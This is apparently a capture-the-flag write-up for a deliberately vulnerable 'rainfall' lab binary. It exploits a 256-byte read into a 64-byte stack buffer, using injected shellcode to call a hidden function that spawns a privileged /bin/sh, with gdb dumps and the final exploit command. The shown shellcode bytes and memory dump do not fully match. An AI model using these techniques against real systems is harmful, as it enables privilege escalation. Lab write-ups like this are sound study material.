



## Infos on the binary

```shell
level01@rainfall:~$ checksec ono
[*] '/home/level01/ono'
    Arch:       amd64-64-little
    RELRO:      Partial RELRO
    Stack:      No canary found
    NX:         NX unknown - GNU_STACK missing
    PIE:        No PIE (0x400000)
    Stack:      Executable
    RWX:        Has RWX segments
    SHSTK:      Enabled
    IBT:        Enabled
    Stripped:   No
```

Same protections as previous level.

```shell
level01@rainfall:~$ objdump -R ./ono

./ono:     file format elf64-x86-64

DYNAMIC RELOCATION RECORDS
OFFSET           TYPE              VALUE
0000000000403fd8 R_X86_64_GLOB_DAT  __libc_start_main@GLIBC_2.34
0000000000403fe0 R_X86_64_GLOB_DAT  __gmon_start__@Base
0000000000404080 R_X86_64_COPY     stdout@GLIBC_2.2.5
0000000000404000 R_X86_64_JUMP_SLOT  strncpy@GLIBC_2.2.5
0000000000404008 R_X86_64_JUMP_SLOT  strncmp@GLIBC_2.2.5
0000000000404010 R_X86_64_JUMP_SLOT  puts@GLIBC_2.2.5 # breach here ?
0000000000404018 R_X86_64_JUMP_SLOT  printf@GLIBC_2.2.5
0000000000404020 R_X86_64_JUMP_SLOT  memset@GLIBC_2.2.5
0000000000404028 R_X86_64_JUMP_SLOT  geteuid@GLIBC_2.2.5
0000000000404030 R_X86_64_JUMP_SLOT  read@GLIBC_2.2.5
0000000000404038 R_X86_64_JUMP_SLOT  fflush@GLIBC_2.2.5
0000000000404040 R_X86_64_JUMP_SLOT  setreuid@GLIBC_2.2.5
0000000000404048 R_X86_64_JUMP_SLOT  exit@GLIBC_2.2.5
0000000000404050 R_X86_64_JUMP_SLOT  execl@GLIBC_2.2.5
```

In the source code, there is a read() of 256 bytes, putting result in a 64 bytes buffer -> overflow possible

```c
#define OPERATOR_LEN 64
...
char op_id[OPERATOR_LEN];

print_header();
read(STDIN_FILENO, op_id, 256);
```

To find the buffer of the read() function  in gdb :

```shell
(gdb) b *0x4013b8 # <- found in Ghidra
Breakpoint 1 at 0x4013b8
(gdb) r
(gdb) p/x $rsi
$1 = 0x7fffffffe220 # <- 
```

ALSO !

There is an unused function doing what we want to do, so we just need to find a way to call it. It is located at `0x401276`

```c
static void __attribute__((noinline)) maintenance_exec(long code)
{
    if (code == 0xdeadbeefL) {
        setreuid(geteuid(), geteuid());
        execl("/bin/sh", "sh", NULL);
    }
}
```



So if we send the value `0xdeadbeefL` as first argument, we will get the shell with correct privileges. However, the code variable "local_20" is in the RDI, so we can't just send it as a string, we need to find a way to put it in the RDI register. 



The easiest way is to use ROPgadgets. Here, we want to find a gadget that will pop the value from the stack into the RDI register. We can use `ROPgadget` to find such a gadget.

```shell
level01@rainfall:~$ ROPgadget --binary ./ono | grep rdi
0x00000000004011e6 : or dword ptr [rdi + 0x404068], edi ; jmp rax
0x000000000040100b : shr dword ptr [rdi], 1 ; add byte ptr [rax], al ; test rax, rax ; je 0x401016 ; call rax
```

No pop rdi gadget in the binary...

So we need to do the same thing, but through a "shellcode" (not shellcode actually cause we will not launch a shell) to put the `0xdeadbeef` value in RDI, and then call the `maintenance_exec` function.

```shell
.section .text
.globl _start
_start:
    mov    $0xdeadbeef, %rdi
    mov    $0x401276, %rax
    call   rax
```



After compiling and objdumping, here is the shellcode :

```shell
0:   bf ef be ad de
5:   b8 76 12 40 00
a:   ff d0
```

```shell
b*0x4013bd # just after read()
(gdb) x/40xb $rbp-0x40
0x7fffffffe220:	0x90	0x90	0x90	0x90	0x90	0x90	0x90	0x90
0x7fffffffe228:	0x48	0xbf	0xef	0xbe	0xad	0xde	0x00	0x00 # shellcode
0x7fffffffe230:	0x00	0x00	0x48	0xc7	0xc0	0x76	0x12	0x40
0x7fffffffe238:	0x00	0xff	0xd0	0x90	0x90	0x90	0x90	0x90
0x7fffffffe240:	0x90	0x90	0x90	0x90	0x90	0x90	0x90	0x90
(gdb) x/gx $rbp+8
0x7fffffffe268:	0x00007fffffffe220 # retaddress

```

Trying everything again without env, to explore in gdb, i get it:

env -i bash -c "(python3 injection.py; cat) | /home/level01/ono"


## Resources

https://www.arsouyes.org/articles/2019/54_Shellcode/